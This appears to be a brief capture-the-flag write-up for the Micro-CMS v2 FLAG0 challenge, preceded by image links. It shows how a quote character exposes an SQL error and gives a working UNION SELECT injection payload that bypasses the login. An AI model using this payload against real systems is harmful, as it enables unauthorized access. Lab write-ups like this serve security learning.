





Micro-CMS v2 - FLAG0
0x00 Index

0x01 Log In
Try create a new page. Redirect to log in page.
Try with weak password. Not working.

0x02 Try Add ‘
Get SQL error page
1 | Traceback (most recent call last): |
0x03 Bypass Login
USERNAME =
1 | ' UNION SELECT '123' AS password# |
and PASSWORD = 123
1 | SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password# |

0x04 Private Page (FLAG)

